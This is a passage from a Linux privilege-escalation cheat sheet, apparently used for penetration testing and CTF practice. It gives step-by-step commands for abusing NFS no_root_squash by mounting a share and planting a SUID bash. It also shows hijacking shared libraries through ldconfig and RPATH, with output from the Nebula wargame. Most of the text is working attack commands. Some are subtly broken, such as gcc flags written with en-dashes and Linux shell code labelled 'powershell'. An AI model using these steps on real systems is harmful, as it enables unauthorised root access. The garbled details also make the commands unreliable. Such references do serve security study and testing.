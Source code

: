## NFS Root Squashing

When **no_root_squash** appears in `/etc/exports`, the folder is shareable and a remote user can mount it.

```powershell
# remote check the name of the folder
showmount -e 10.10.10.10

# create dir
mkdir /tmp/nfsdir  

# mount directory 
mount -t nfs 10.10.10.10:/shared /tmp/nfsdir    
cd /tmp/nfsdir

# copy wanted shell 
cp /bin/bash . 	

# set suid permission
chmod +s bash 	
```

## Shared Library

### ldconfig

Identify shared libraries with `ldd`

```powershell
$ ldd /opt/binary
    linux-vdso.so.1 (0x00007ffe961cd000)
    vulnlib.so.8 => /usr/lib/vulnlib.so.8 (0x00007fa55e55a000)
    /lib64/ld-linux-x86-64.so.2 => /usr/lib64/ld-linux-x86-64.so.2 (0x00007fa55e6c8000)        
```

Create a library in `/tmp` and activate the path.

```powershell
gcc –Wall –fPIC –shared –o vulnlib.so /tmp/vulnlib.c
echo "/tmp/" > /etc/ld.so.conf.d/exploit.conf && ldconfig -l /tmp/vulnlib.so
/opt/binary
```

### RPATH

```powershell
level15@nebula:/home/flag15$ readelf -d flag15 | egrep "NEEDED|RPATH"
 0x00000001 (NEEDED)                     Shared library: [libc.so.6]
 0x0000000f (RPATH)                      Library rpath: [/var/tmp/flag15]

level15@nebula:/home/flag15$ ldd ./flag15 
 linux-gate.so.1 =>  (0x0068c000)
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0x00110000)
 /lib/ld-linux.so.2 (0x005bb000)
```

